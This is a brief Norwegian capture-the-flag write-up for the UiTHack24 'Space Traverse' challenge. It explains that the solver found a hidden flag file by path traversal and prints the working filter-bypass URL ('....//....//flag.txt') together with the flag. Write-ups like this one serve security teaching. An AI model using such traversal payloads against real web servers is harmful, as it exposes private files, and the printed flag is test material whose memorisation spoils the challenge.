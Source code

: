 # Space Traverse
In the search for a new planet to inhabit, we have found a couple different candidates. I have collected images of them, so that you can help me decide which one to go to.

https://uithack.td.org.uit.no:8001

## Løsning
Hintet i denne oppgaveteksten er "traverse". Her er poenget at man skal bruke URL-en til å finne en gjemt fil. For å løse oppgaven prøvde jeg meg frem med `../` og `flag.txt` til jeg fant flagget på denne URL-en: 

`https://uithack.td.org.uit.no:8001/images/?image=....//....//flag.txt`

`UiTHack24{n0t_th3_tr4v3rse_1_w45_3xp3c71ng}`
